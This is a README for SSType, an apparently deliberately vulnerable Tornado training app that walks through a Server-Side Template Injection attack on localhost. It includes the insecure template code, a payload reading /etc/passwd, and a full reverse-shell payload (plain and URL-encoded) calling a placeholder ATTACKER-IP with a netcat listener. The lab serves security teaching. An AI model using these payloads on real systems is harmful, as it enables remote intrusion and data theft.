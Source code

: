 
# SSType

<p align="center"><img  src="src/images/ssti-logo.png"/></p>

SSType is a simple Python web application that contains an example of a Server-Side Template Injection vulnerability in Tornado. In this example, a specific subcategory of Injection will be exemplified: Server Side Injection or SSTI.

## Index

- [Definition](#what-is-injection)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Injection?

Injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization.

The main goal of this project is to discuss how **Server-Side Template Injection** vulnerabilities can be exploited and to encourage developers to send Pull Requests to b3d3cLabs on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [b3d3cLabs](https://github.com/b3d3c/b3d3cLabs), you must type the following commands to start:

```sh
cd b3d3cLabs/owasp-top10-2017/a1/sstype
```

```sh
make install
```

Then simply visit [localhost:10001][App], as exemplified below:

<p align="center"><img  src="images/SSType.jpg"/></p>

## Get to know the app 💉

To properly understand how this application works, you can do some search using `name` as a query string using a [browser](http://localhost:10001/?name=ebdc) or using `curl` in a terminal: 

```sh
curl http://localhost:10001/?name=Vitor
```

<p align="center"><img  src="images/attack0.png"/></p>

## Attack Narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Lack of input validation allows injection of OS commands

After reviewing the application code, it was possible to see that the user input (`name` querystring variable) is not being handled properly before being rendered in the template, as shown in the following code snippets:

```python
def get(self):
    name = self.get_argument('name', '')
    template_data = tmpl.replace("NAMEHERE",name)
    t = tornado.template.Template(template_data)
    self.write(t.generate(name=name))
```

```html
<h3>Hello: NAMEHERE</h3>
<h2>Try with /?name=YourName</h2>
```

To confirm that the input field is vulnerable, the following payload could be used to test if the result of `4*4` could be rendered in the page:

```
http://localhost:10001/?name={{4*4}}
```

When this request gets to the application, `NAMEHERE` will be replaced into the HTML and it will execute the math, returning `16`: 

```html
<h3>Hello: {{4*4}} </h3>
<h2>Try with /?name=YourName</h2>
```

<p align="center"><img  src="images/attack1.png"/></p>

### 🔥

An attacker could now create any malicious command that, in theory, it will be executed. The first step we could do is trying to read the content of the `/etc/passwd` file. To do that, we will use the following Python command as the `name` query string:

```python
{%import os%}{{os.popen('cat /etc/passwd').read()}}
```

<p align="center"><img  src="images/attack2.png"/></p>

Great! Now that we can execute commands on the server hosting the application, a malicious Python script to provide us a shell somehow on the victim's server can be created. Let's take a look at the following example:

```python
import socket,subprocess,os

# creates a socket to estabilish the connection between the victim and the attacker
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER-IP","ATTACKER-PORT"))

# configures STDIN, STDOUT and STDERR to be used in the shell
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)

# spawns an interactive sh shell  
p=subprocess.call(["/bin/bash","-i"]);
```

To receive a reverse shell, we first need to use `nc` in our terminal to listen for any connections coming to our `ATTACKER-IP` and `ATTACKER-PORT` and later execute this Python script on the victim server:

```sh
nc -nlv ATTACKER-PORT
```

But how can we use this payload inside the `name` parameter? To do so, we could compact it using multiples `;` to separate each instruction, resulting in the following payload:

```
Don't forget to replace `ATTACKER-IP` and `ATTACKER-PORT` below!
```

```python
{%import os%}{{os.popen("python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"ATTACKER-IP\",ATTACKER-PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/bash\",\"-i\"]);'").read()}}
```

However, as there might be some special characters in this string, we need to escape them before injecting it in the vulnerable application (this [online URL encoder](https://www.urlencoder.org/) may help) and hope for a shell:

```python
%7B%25import%20os%25%7D%7B%7Bos.popen%28%22python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%5C%22ATTACKER-IP%5C%22%2CATTACKER-PORT%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%5C%22%2Fbin%2Fbash%5C%22%2C%5C%22-i%5C%22%5D%29%3B%27%22%29.read%28%29%7D%7D
```

<p align="center"><img  src="images/attack3.png"/></p>

## Secure this app

How could you now mitigate this vulnerability? After your code modification, an attacker should not be able to run commands on the server.

## References

* Docker Install:  https://docs.docker.com/install/
* Docker Compose Install: https://docs.docker.com/compose/install/
* App: http://localhost:10001

